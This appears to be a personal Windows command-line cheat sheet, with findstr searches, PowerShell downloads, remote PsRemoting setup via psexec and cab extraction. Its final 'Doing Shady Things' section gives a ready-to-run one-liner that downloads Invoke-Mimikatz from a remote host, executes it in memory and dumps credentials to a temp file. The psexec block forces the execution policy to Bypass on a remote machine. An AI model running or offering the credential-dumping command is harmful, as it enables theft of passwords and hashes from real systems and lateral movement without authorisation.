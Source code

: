 # Command Line Kung-Fu
Some things I've picked up over the years.
## Parsing Stuff
Literal string match recursively from the root of the C: drive:
```
findstr /pinsc:"somestring" C:\*.txt
```
RegEx string match recursively in all text and xml files:
```
findstr /pinsr ^some.tring *.txt *.xml
```
## Downloading Stuff
Like wget for older versions of PowerShell
```
(New-Object System.Net.WebClient).DownloadFile("https://www.contoso.com/file","C:\path\file")
```
Or wget for newer PowerShell
```
Invoke-WebRequest -Uri "http://www.contoso.com" -OutFile "C:\path\file"
```
## Doing Stuff Remotely
Enabling PsRemoting Remotely :-)
```
$NaughtyComputer = Read-Host "Please Enter The ComputerName:"
psexec.exe -accepteula -s -h -e -d \\some-hostname powershell.exe "Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine -Force"
psexec.exe -accepteula -s -h -e -d \\some-hostname powershell.exe "Enable-PSRemoting -Force"
Enter-PSSession -ComputerName $NaughtyComputer
```
## Doing Things Iteratively
Getting  all the .msp files out of your windows Update .cab archives
```
Get-ChildItem -Path C:\Windows\SoftwareDistribution\Download\*.cab -Recurse | Select-Object -ExpandProperty FullName | ForEach-Object {expand.exe $_ -F:* C:\Updates\}
```
## Doing Shady Things
Dumping Some Creds
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds | Out-File "$($Env:TEMP)\output.txt"
```
